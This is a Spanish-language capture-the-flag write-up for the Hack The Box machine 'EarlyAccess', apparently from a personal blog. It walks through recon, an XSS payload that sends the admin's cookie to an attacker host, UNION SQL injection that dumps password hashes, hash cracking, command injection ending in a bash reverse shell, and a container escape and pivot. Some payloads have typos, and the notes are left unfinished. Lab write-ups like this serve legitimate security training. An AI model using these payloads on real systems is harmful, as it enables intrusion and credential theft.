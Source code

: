 ```yaml
---
title: "EarlyAccess"
description: "EarlyAccess"
pubDate: 2025-05-20
---
```


https://app.hackthebox.com/machines/EarlyAccess

# Fase de reconocimiento

## Buscamos puertos abiertos

````
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.11.110
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020241210102323.png)

## Reconocimiento de servicios

````
nmap -sCV -p22,80,443 10.10.11.110
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020241210102438.png)

## Añadir /etc/hosts

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020241210102834.png)

## Buscamos posibles subdominos y info en certificado

````
openssl s_client -connect 10.10.11.110:443
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020241210103809.png)
Vemos el correo de un usuario

## 

````
gobuster dir -u https://earlyaccess.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
````

# Fase de ataque

## XSS + Cookie Hijacking

Hay un contact con admin y Cambiando el nombre de perfil, puedes inyectar html

1. Cambiamos el nombre

````
<script>document.location="http://10.10.14.10:8080/?cookie="+document.cookie</script>
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020241210110410.png)
2. Nos ponemos en escucha

````
python3 -m http.server 8080
````

3. Mandamos un mensaje al admin

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020241210110428.png)
Cambiamos las cookies
¡admin!

## Key-validator analysis (s4vitar video)

Vemos que hace el código para validar y creamos una clave dejuego valida.

Asignamos la clave a una cuenta (ej. prueba@prueba.com)
Entramos en la pagina del game

## SQLI

Metemos un SQLI en el perfil que sera refeljado en el scoreboard.
Probamos que sea vulnerable

````
prueba'
````

Como es vulnerable, buscamos los datos en BBDD
Buscamos el total de columnas

````
prueba') order by 3-- -
````

````
prueba') union 1,2,database()-- -
````

````
prueba') union 1,2,schema_name from information_schema.schemata-- -
````

````
prueba') union 1,2,table_name from information_schema.tables where table_schema='db'- -
````

````
prueba') union 1,2,column_name from information_schema.columns where table_schema='db' and table_name='users'- -
````

````
prueba') union 1,2,group_concat(name,0x3a,password) from users- -
````

Nos da unas contraseñas hasheadas

## Crack

````
john -wordlist=/usr/share/wordlists/rockyou.txt hashes
````

Sale cotraseña admin - gameover

Iniciamos sesion en dev.

## Fuzz de archivos php en la web

````
wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium-txt -H "Cookie: PHPSESSID=<cookie>" "http://dev.earlyaccess.htb/actions/FUZZ.php"
````

Encontramos file.php

### Fuzz de parametro de insertar archivo

````
wfuzz -c --hc=404 -hh=35 -t 200 -w /usr/share/secList/Discovery/Web-Content/burp-parameter-names.txt -H "Cookie: PHPSESSID=<cookie>" "http://dev.earlyaccess.htb/actions/file.php?FUZZ=test"
````

Enocntramos que es ?filepath=

## LFI

Podemos llegar a ver el php integro de la opcion de hash y vemos que podemos modificar el metodo de hasheo añadiendo debug en los parametros
Insertamos en el parametro de funciones un comando para ejuctar comandos y en la password a hashear el comando

````
hash_functions=system
````

````
password=bash -c 'bash -i >& /dev/tcp/<ipa>/443 0&1'    (urlencode)
````

Nos ponemos en escucha

````
nc -nlvp 443
````

\[-\] ==pwned!==

# Privilege Escalation

## Exit docker container

Reutilizacion de credenciales para ir al usuario www-adm

* En el usuario hay credenciales de un api
* Hay una API corriendo en local

````
nc API 80
````

### Escaneo puertos bash

````bash
#!/bin/bash
function ctrl_c(){
	echo -e "\n\n[!] Saliendo..."
	exit 1
}
trap ctrl_c INT

for port in $(seq 1 65535); do
	tiemout 1 bash -c "echo '' > /dev/tcp/<ipd>/$port" 2>/dev/null && echo "[+] POrt $port open" &
	
done, wait

````

En el puerto 5000 esta la API y hay configuracion

````
wget http://<ipd>:5000/check_db
````

Encontramos usuario y contraseña de base de datos y root

Nos conectamos a la maquina real con ssh y usuario drew

## Desde maquina real

Encontramos un .ssh/id_rsa.pub con una publica de otra maquina

Encontramos la maquina para conectarnos por ssh (172.19.0.3)

Nos conectamos

...(mucho texto)

\[+\] ==pwned!==
